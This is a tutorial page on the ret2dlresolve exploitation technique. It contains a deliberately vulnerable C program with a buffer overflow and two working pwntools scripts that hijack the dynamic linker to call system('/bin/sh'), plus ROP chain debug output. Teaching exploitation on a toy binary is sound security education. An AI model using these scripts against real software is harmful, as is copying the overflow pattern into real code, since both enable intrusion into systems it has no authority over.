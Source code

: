 # ret2dlresolve: Exploiting Dynamic Linker Resolving to Execute Arbitrary Code

## Overview

The `ret2dlresolve` technique is a Return-Oriented Programming (ROP) exploit that targets the dynamic linker resolution process in binaries. It is commonly used to hijack control flow and invoke functions like `system()` with arbitrary arguments (e.g., spawning a shell). This method is effective when the target application does not have straightforward ROP gadgets for direct function calls but is dynamically linked to libraries like `libc` that resolve function symbols at runtime.

## Exploitation

To demonstrate the exploitation process, we use an example program where a buffer overflow vulnerability exists in the `vuln()` function. The program reads input from the user and does not properly validate the size of the input, allowing an attacker to overflow the buffer and control the program's execution flow.

### Example Program

```c
#include <unistd.h>

void vuln(void){
    char buf[64];
    read(STDIN_FILENO, buf, 200);
}

int main(int argc, char** argv){
    vuln();
}
```

In this example, the vulnerable function `vuln()` uses `read()` to read 200 bytes into a 64-byte buffer. This buffer overflow can be exploited to overwrite the return address and execute arbitrary code.

### Using `pwntools` to Automate the Exploit

`pwntools` provides a convenient helper class, `Ret2dlresolvePayload`, which simplifies the process of interacting with the dynamic linker and resolving function addresses at runtime. Here's how you can automate the exploit using `pwntools`.

```python
from pwn import *

# Load the binary
elf = context.binary = ELF('./vuln')

# Create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

# Create the ROP chain
rop = ROP(elf)

# Overflow buffer (A * 76)
rop.raw('A' * 76)

# Use the read() function to write the fake structures to memory
rop.read(0, dlresolve.data_addr)

# Call the .plt and dl-resolve() with the correct, calculated reloc_offset
rop.ret2dlresolve(dlresolve)

# Log the ROP chain for debugging
log.info(rop.dump())

# Send the crafted payload
p = elf.process()
p.sendline(rop.chain())
p.sendline(dlresolve.payload)

# Interact with the shell
p.interactive()
```

### What Happens in the Exploit?

- **ROP Chain Construction**: The ROP chain is crafted to:
  1. Overflow the buffer (`A` * 76).
  2. Use the `read()` function to write fake structures (such as the `Elf32_Sym` and `Elf32_Rel` structures) to the stack.
  3. Trigger the `.plt` entry to resolve the `system()` function symbol.
  
- **`Ret2dlresolvePayload`**: This payload creates a fake `Elf32_Sym` structure (which holds the symbol for `system()`) and a corresponding `Elf32_Rel` structure (which holds the relocation information). It then places the argument (`/bin/sh`) for the `system()` call at the appropriate location.

- **Dynamic Linker**: The exploit hijacks the dynamic linker by calling `.plt` (Procedure Linkage Table) entries, which in turn resolve the `system()` function at runtime. This is done by passing the fake structures created in memory.

- **Final Execution**: After sending the ROP chain and payload, the attacker controls the execution flow and spawns a shell using the `system()` function with `/bin/sh` as the argument.

### Debugging the Exploit

To gain insight into what is happening during the exploit, `rop.dump()` can be used to log the generated ROP chain. This will show the function calls, addresses, and arguments being passed through the ROP chain.

Here’s an example output of `rop.dump()`:

```
[DEBUG] PLT 0x8049030 read
[DEBUG] PLT 0x8049040 __libc_start_main
[DEBUG] Symtab: 0x804820c
[DEBUG] Strtab: 0x804825c
[DEBUG] Versym: 0x80482a6
[DEBUG] Jmprel: 0x80482d8
[DEBUG] ElfSym addr: 0x804ce0c
[DEBUG] ElfRel addr: 0x804ce1c
[DEBUG] Symbol name addr: 0x804ce00
[DEBUG] Version index addr: 0x8048c26
[DEBUG] Data addr: 0x804ce00
[DEBUG] PLT_INIT: 0x8049020
[*] 0x0000:          b'AAAA' 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
    [...]
    0x004c:        0x8049030 read(0, 0x804ce00)
    0x0050:        0x804921a <adjust @0x5c> pop edi; pop ebp; ret
    0x0054:              0x0 arg0
    0x0058:        0x804ce00 arg1
    0x005c:        0x8049020 [plt_init] system(0x804ce24)
    0x0060:           0x4b44 [dlresolve index]
    0x0064:          b'zaab' <return address>
    0x0068:        0x804ce24 arg0
```

### Memory Layout Breakdown

1. **0x804ce00**: The address of the symbol name (`system`) in the `.strtab`.
2. **0x804ce0c**: The `Elf32_Sym` structure, containing the symbol index and other data.
3. **0x804ce1c**: The `Elf32_Rel` structure, which includes the relocation information for the `system` function.
4. **0x804ce24**: The string `/bin/sh` which will be passed to `system()` as an argument.

## Final Exploit

After successfully sending the crafted ROP chain and the payload to the process, the exploit resolves the `system()` function and executes `/bin/sh`, giving the attacker control over the system.

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = elf.process()
rop = ROP(elf)

# Create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

# Construct the ROP chain
rop.raw('A' * 76)
rop.read(0, dlresolve.data_addr)  # Read to write the fake structures
rop.ret2dlresolve(dlresolve)      # Resolve system() using .plt and dl-resolve()

# Log the ROP chain
log.info(rop.dump())

# Send the ROP chain and payload
p.sendline(rop.chain())
p.sendline(dlresolve.payload)  # Pass the structures to read()

# Get interactive shell
p.interactive()
```

## Conclusion

The `ret2dlresolve` exploit is an advanced technique that leverages the dynamic linker to resolve function symbols at runtime, allowing for the execution of arbitrary functions like `system()` with custom arguments. This is particularly useful when traditional ROP gadgets are unavailable but dynamic linking provides an exploitable attack vector.
